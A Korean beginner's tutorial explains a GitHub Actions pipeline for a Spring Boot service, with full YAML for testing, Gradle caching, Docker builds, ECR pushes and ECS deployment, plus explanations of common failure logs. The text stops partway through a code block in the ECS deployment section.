








# 백엔드 신입 GitHub Actions 입문

Docker 입문 문서에서 이미지를 직접 빌드해봤다면, 이제 그 과정을 Push 한 번으로 자동화할 차례다. 이 문서는 테스트 → 빌드 → Docker 이미지 빌드 → ECR 푸시 → ECS 배포까지 이어지는 파이프라인을 실제로 돌아가는 YAML로 설명한다.

GitHub Actions는 선언적 구조라 처음 보면 쉬워 보인다. 막상 파이프라인이 실패하면 어디가 문제인지 찾는 데 시간을 많이 쓴다. 그래서 각 절마다 신입이 실제로 마주치는 실패 로그와 원인을 같이 적었다. 마지막 절에는 입문 단계에서 가장 자주 하는 보안 실수 네 가지를 따로 모았다.

---

## 파이프라인 전체 구조

파이프라인은 `main` 브랜치에 Push하거나 PR을 열 때 자동으로 동작한다. 먼저 전체 흐름을 보자. 아래 도식에서 PR은 `test`에서 끝나고, `main` Push만 ECR과 ECS까지 간다는 점을 보면 된다.



Job 단위로 나누면 실패한 단계만 명확히 보인다. 전체 YAML을 먼저 보고, 뒤에서 단계별로 풀어 설명한다.

```yaml
# .github/workflows/deploy.yml
name: CI/CD Pipeline

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

env:
  AWS_REGION: ap-northeast-2
  ECR_REPOSITORY: my-app
  ECS_SERVICE: my-app-service
  ECS_CLUSTER: my-cluster
  CONTAINER_NAME: my-app

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK 17
        uses: actions/setup-java@v4
        with:
          java-version: '17'
          distribution: 'temurin'

      - name: Cache Gradle packages
        uses: actions/cache@v4
        with:
          path: |
            ~/.gradle/caches
            ~/.gradle/wrapper
          key: ${{ runner.os }}-gradle-${{ hashFiles('**/*.gradle*', '**/gradle-wrapper.properties') }}
          restore-keys: |
            ${{ runner.os }}-gradle-

      - name: Grant execute permission for gradlew
        run: chmod +x gradlew

      - name: Run tests
        run: ./gradlew test

      - name: Upload test results
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: test-results
          path: build/reports/tests/

  build-and-push:
    needs: test
    runs-on: ubuntu-latest
    if: github.ref == 'refs/heads/main' && github.event_name == 'push'
    outputs:
      image: ${{ steps.build-image.outputs.image }}
    steps:
      - uses: actions/checkout@v4

      - name: Set up JDK 17
        uses: actions/setup-java@v4
        with:
          java-version: '17'
          distribution: 'temurin'

      - name: Cache Gradle packages
        uses: actions/cache@v4
        with:
          path: |
            ~/.gradle/caches
            ~/.gradle/wrapper
          key: ${{ runner.os }}-gradle-${{ hashFiles('**/*.gradle*', '**/gradle-wrapper.properties') }}
          restore-keys: |
            ${{ runner.os }}-gradle-

      - name: Grant execute permission for gradlew
        run: chmod +x gradlew

      - name: Build with Gradle
        run: ./gradlew bootJar -x test

      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v4
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          aws-region: ${{ env.AWS_REGION }}

      - name: Login to Amazon ECR
        id: login-ecr
        uses: aws-actions/amazon-ecr-login@v2

      - name: Build, tag, and push image to ECR
        id: build-image
        env:
          ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
          IMAGE_TAG: ${{ github.sha }}
        run: |
          docker build -t $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG .
          docker push $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG
          echo "image=$ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG" >> $GITHUB_OUTPUT

  deploy:
    needs: build-and-push
    runs-on: ubuntu-latest
    environment: production
    steps:
      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v4
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          aws-region: ${{ env.AWS_REGION }}

      - name: Download task definition
        run: |
          aws ecs describe-task-definition \
            --task-definition ${{ env.ECS_SERVICE }} \
            --query taskDefinition > task-definition.json

      - name: Fill in the new image ID in the ECS task definition
        id: task-def
        uses: aws-actions/amazon-ecs-render-task-definition@v1
        with:
          task-definition: task-definition.json
          container-name: ${{ env.CONTAINER_NAME }}
          image: ${{ needs.build-and-push.outputs.image }}

      - name: Deploy Amazon ECS task definition
        uses: aws-actions/amazon-ecs-deploy-task-definition@v1
        with:
          task-definition: ${{ steps.task-def.outputs.task-definition }}
          service: ${{ env.ECS_SERVICE }}
          cluster: ${{ env.ECS_CLUSTER }}
          wait-for-service-stability: true
```

Job이 세 개(`test`, `build-and-push`, `deploy`)로 나뉘는 이유가 있다. `needs` 키로 의존 관계를 걸어두면 테스트가 실패했을 때 이미지를 빌드하지 않고, 이미지 빌드가 실패하면 배포하지 않는다. 실패 원인이 어느 Job인지 Actions 탭에서 바로 보인다.

### YAML 단계별 해설

YAML이 길어서 읽다 보면 어디가 무슨 역할인지 놓친다. 위에서 아래로 훑으면 이렇다.

**최상단 `on`, `env`**

`on`은 실행 시점이고, `env`는 모든 Job에서 쓰는 상수다. 리전·리포지토리 이름처럼 비밀이 아닌 값만 여기 둔다. 비밀 값은 `secrets`로 따로 뺀다.

**`test` Job**

| 스텝 | 하는 일 | 깨지는 경우 |
|---|---|---|
| `checkout` | 저장소 코드를 러너로 내려받는다 | 이게 없으면 이후 스텝에서 `gradlew: No such file or directory` |
| `setup-java` | JDK 17 설치 | Gradle 툴체인과 버전이 다르면 `Unsupported class file major version` |
| `cache` | 의존성 캐시 복원·저장 | 실패해도 빌드는 계속된다. 느려질 뿐이다 |
| `chmod +x gradlew` | 실행 권한 부여 | Windows에서 커밋한 `gradlew`는 권한이 빠져 `Permission denied` |
| `gradlew test` | 테스트 실행 | 테스트 실패. 여기서 끝나면 아래 Job은 시작도 안 한다 |
| `upload-artifact` | 실패했을 때만 리포트 업로드 | `if: failure()`가 없으면 성공해도 매번 올라간다 |

**`build-and-push` Job**

`needs: test`와 `if` 두 줄이 이 Job의 문턱이다. `needs`는 `test` 성공을 요구하고, `if`는 PR을 걸러낸다. 같은 Job 안에서 JDK 설치와 캐시를 다시 하는 이유는 Job마다 새 러너(새 VM)를 받기 때문이다. 앞 Job에서 받은 파일은 아무것도 넘어오지 않는다.

`configure-aws-credentials`가 AWS 자격증명을 환경에 심고, `amazon-ecr-login`이 `docker login`을 대신 해준다. 그 뒤 `docker build`와 `docker push`를 한 스텝에서 하고, 마지막 줄 `>> $GITHUB_OUTPUT`이 이미지 주소를 `outputs.image`로 내보낸다. Job 맨 위의 `outputs:`가 그 값을 다음 Job으로 전달하는 통로다.

**`deploy` Job**

러너가 또 새로 뜨기 때문에 AWS 자격증명을 다시 설정한다. 이후 세 스텝은 순서가 의미를 가진다.

1. `describe-task-definition`으로 현재 ECS에 등록된 Task Definition을 JSON으로 받는다
2. `render-task-definition`이 그 JSON에서 컨테이너의 `image` 값만 새 주소로 바꿔 새 파일을 만든다
3. `deploy-task-definition`이 새 Task Definition을 등록하고 서비스가 그걸 쓰도록 갱신한다

`environment: production`은 이 Job 시작 직전에 승인 게이트를 건다. 승인 절에서 다시 다룬다.

---

## 트리거 설정

`on` 블록이 파이프라인이 언제 실행될지를 결정한다.

```yaml
on:
  push:
    branches: [main]
  pull_request:
    branches: [main]
```

이 설정으로 동작하는 범위가 다르다.

- `push`(`main`): 테스트 → 빌드 → ECR 푸시 → ECS 배포까지 전체 파이프라인
- `pull_request`(`main`): 테스트 Job만 동작. `build-and-push` Job에 `if: github.ref == 'refs/heads/main' && github.event_name == 'push'` 조건이 있어서 PR에서는 빌드·배포가 생략된다

PR에서도 빌드 산출물을 확인하고 싶다면 `build-and-push` Job의 `if` 조건에서 `event_name` 체크를 제거하고, `deploy` Job에만 조건을 남기면 된다.

브랜치 패턴을 좀 더 정밀하게 쓸 수 있다.

```yaml
on:
  push:
    branches:
      - main
      - 'release/**'
    paths:
      - 'src/**'
      - 'build.gradle'
      - 'Dockerfile'
```

`paths` 필터를 쓰면 문서(`docs/`)만 바꿨을 때 불필요한 빌드가 돌지 않는다.

### 필터 때문에 PR이 멈추는 경우

`paths` 필터에 걸려 워크플로가 아예 실행되지 않으면, Branch Protection의 "required status checks"로 등록된 체크는 영원히 보고되지 않는다. PR 화면에 이렇게 뜬다.

```
Expected — Waiting for status to be reported
Required
```

체크가 실패한 게 아니라 **없는** 것이라서 머지 버튼이 계속 막힌다. 워크플로 파일은 멀쩡하니 YAML을 한참 들여다봐도 원인이 안 나온다. `docs/`만 고친 PR에서 처음 겪는 경우가 많다. 필수 체크로 걸 워크플로에는 `paths`를 쓰지 않거나, 필터 대신 Job 안에서 변경 파일을 보고 스텝을 건너뛰게 만든다.

---

## Secrets 주입

AWS 자격증명처럼 코드에 하드코딩하면 안 되는 값은 GitHub Secrets에 등록하고 `${{ secrets.KEY_NAME }}`으로 참조한다.

**등록 위치**: Repository → Settings → Secrets and variables → Actions → New repository secret

```yaml
- name: Configure AWS credentials
  uses: aws-actions/configure-aws-credentials@v4
  with:
    aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
    aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
    aws-region: ap-northeast-2
```

Secrets 값이 러너까지 가서 로그에서 가려지는 과정은 아래 도식과 같다. 핵심은 마스킹이 **등록된 값과 글자 그대로 일치하는 문자열**에만 걸린다는 점이다.



`echo ${{ secrets.AWS_SECRET_ACCESS_KEY }}`를 실행하면 로그에는 `***`으로 나온다. 그래서 "찍어도 안전하다"고 오해하기 쉬운데, 마스킹은 완전하지 않다. 값을 base64로 바꾸거나 한 글자씩 쪼개 출력하면 목록과 일치하지 않아 그대로 나온다. 여러 줄짜리 Secret(PEM 키 등)은 줄 단위로 처리돼 일부 줄이 새는 경우도 있다. 입문 단계에서는 "Secret은 로그에 찍지 않는다"를 기본으로 잡는다. 이유는 마지막 보안 절에서 다시 설명한다.

`environment`를 사용하면 환경별로 Secrets를 분리할 수 있다. `production` 환경에만 실제 AWS 자격증명을 넣고, `staging` 환경에는 별도 계정 자격증명을 넣는 식이다.

```yaml
deploy:
  needs: build-and-push
  runs-on: ubuntu-latest
  environment: production   # 이 환경의 Secrets를 사용
```

### Secrets가 비어서 들어오는 경우

`environment`에 필요한 Secrets가 없거나 이름 오타가 있으면 해당 스텝에 빈 값이 들어간다. 존재하지 않는 Secret을 참조해도 GitHub는 에러를 내지 않고 빈 문자열로 치환한다. 그래서 AWS 쪽에서 이런 로그가 나온다.

```
Error: Credentials could not be loaded, please check your action inputs: Could not load credentials from any providers
```

`Credentials could not be loaded`가 보이면 AWS 계정이나 IAM을 의심하기 전에 Secrets 이름부터 대조한다. `AWS_ACCESS_KEY_ID`와 `AWS_ACCESS_KEY`처럼 한 글자 차이로 틀리는 경우가 흔하다. Secrets는 값을 다시 볼 수 없으니 이름과 소속(Repository 단위인지 Environment 단위인지)만 확인할 수 있다. Environment Secret은 해당 `environment:`를 선언한 Job에서만 읽힌다. `test` Job처럼 선언이 없는 Job에서는 같은 이름을 참조해도 빈 값이다.

fork한 저장소에서 올린 PR도 마찬가지다. `pull_request` 이벤트로 도는 워크플로는 fork 쪽에서는 Secrets를 받지 못한다. 내 저장소 브랜치에서 올린 PR은 잘 되는데 외부 기여자 PR만 실패한다면 이게 원인이다.

---

## Gradle 빌드 캐싱

캐시 설정을 안 하면 매번 Gradle 의존성을 새로 내려받는다. Spring Boot 프로젝트 기준으로 의존성 다운로드에만 1~2분이 걸리는 경우가 있다. 캐시가 히트하면 이 시간이 몇 초로 줄어든다.

```yaml
- name: Cache Gradle packages
  uses: actions/cache@v4
  with:
    path: |
      ~/.gradle/caches
      ~/.gradle/wrapper
    key: ${{ runner.os }}-gradle-${{ hashFiles('**/*.gradle*', '**/gradle-wrapper.properties') }}
    restore-keys: |
      ${{ runner.os }}-gradle-
```

`key`가 캐시 히트 여부를 결정한다. `hashFiles('**/*.gradle*')`는 `build.gradle`, `settings.gradle` 등 Gradle 설정 파일의 해시값을 포함한다. 의존성이 바뀌면 파일 해시가 달라져서 캐시 미스가 나고, 새로 받은 뒤 캐시를 다시 저장한다.

`restore-keys`는 정확히 일치하는 캐시가 없을 때 prefix로 매칭되는 가장 최근 캐시를 찾는다. `${{ runner.os }}-gradle-`로 시작하는 캐시가 있으면 완전히 새로 내려받는 대신 그 캐시를 복원한 후 변경된 의존성만 추가로 내려받는다.

`key`와 `restore-keys`가 어떤 순서로 평가되는지는 아래 도식으로 보면 빠르다. 정확히 일치하면 저장을 생략하고, 일치하지 않으면 Job 끝에서 새 key로 저장한다는 점을 보면 된다.



캐시 크기가 너무 크면 오히려 복원하는 시간이 더 걸린다. `~/.gradle/caches` 디렉토리가 수 GB로 불어나는 경우가 있어서, `~/.gradle/caches/modules-2/files-2.1`만 캐시하는 방식으로 범위를 좁히기도 한다.

### 캐시 관련 로그

캐시는 실패해도 빌드를 막지 않는다. 그래서 문제가 있어도 눈에 안 띄고 빌드 시간만 늘어난다. 로그에서 직접 확인해야 한다.

```
Cache not found for input keys: Linux-gradle-3f9a1c..., Linux-gradle-
```

첫 실행이나 `build.gradle` 변경 직후에는 정상이다. 같은 `build.gradle`로 두 번째, 세 번째 실행해도 계속 이 줄이 나오면 저장이 안 되고 있는 것이다. 이때는 `Post Cache Gradle packages` 스텝의 로그를 본다.

```
Warning: Failed to save: Unable to reserve cache with key Linux-gradle-3f9a1c..., another job may be creating this cache.
```

같은 키를 두 Job이 동시에 저장하려 하면 한쪽이 이 경고를 낸다. 위 YAML처럼 `test`와 `build-and-push`가 같은 키를 쓰는 구조에서는 자연스럽게 나올 수 있고 문제는 아니다. 저장소 전체 캐시는 용량 상한이 있어서(저장소당 10GB) 넘으면 오래된 캐시부터 지워진다. 브랜치를 많이 쓰는 팀에서 캐시가 자꾸 사라지는 이유가 이것이다.

---

## Docker 이미지 빌드와 ECR 푸시

ECR에 이미지를 올리려면 ECR 로그인 → 빌드 → 태그 → 푸시 순서로 진행한다.

```yaml
- name: Login to Amazon ECR
  id: login-ecr
  uses: aws-actions/amazon-ecr-login@v2

- name: Build, tag, and push image to ECR
  id: build-image
  env:
    ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
    IMAGE_TAG: ${{ github.sha }}
  run: |
    docker build -t $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG .
    docker push $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG
    echo "image=$ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG" >> $GITHUB_OUTPUT
```

이미지 태그로 `${{ github.sha }}`(커밋 해시)를 쓰는 게 일반적이다. `latest`만 쓰면 어느 커밋으로 배포된 건지 추적이 안 된다. 운영 중에 롤백해야 할 때 이전 태그를 모르면 재배포가 불가능하다.

`echo "image=..." >> $GITHUB_OUTPUT`은 이 스텝의 결과를 후속 Job에서 참조할 수 있게 저장한다. `deploy` Job에서 `${{ needs.build-and-push.outputs.image }}`로 받아서 Task Definition에 넣는다.

### 이 구간에서 나오는 로그

ECR 푸시 전에 리포지토리가 없으면 푸시 단계에서 이런 로그가 나온다.

```
The repository with name 'my-app' does not exist in the registry with id '123456789012'
```

ECR 리포지토리는 배포 파이프라인과 별개로 미리 만들어두거나 Terraform으로 관리한다. 로그에 찍힌 `registry id`가 내가 생각한 AWS 계정인지도 같이 본다. 자격증명이 다른 계정 것이면 리포지토리가 있어도 없다고 나온다.

`docker build` 단계에서 이런 로그가 나오는 경우도 많다.

```
COPY failed: file not found in build context or excluded by .dockerignore: stat build/libs/app.jar: file does not exist
```

Dockerfile이 `build/libs/app.jar`를 복사하는데 해당 Job에서 `bootJar` 스텝이 빠졌거나, 산출물 이름이 `app-0.0.1-SNAPSHOT.jar`처럼 버전이 붙어 나온 경우다. 로컬에서는 이전에 빌드한 jar가 남아 있어서 통과하다가 CI에서 처음 드러난다. 이름을 고정하려면 `bootJar { archiveFileName = 'app.jar' }`로 지정한다.

---

## ECS 배포

Task Definition의 이미지 태그를 새 것으로 교체하고 서비스를 업데이트하는 방식이다.

```yaml
- name: Download task definition
  run: |
    aws ecs describe-task-definition \
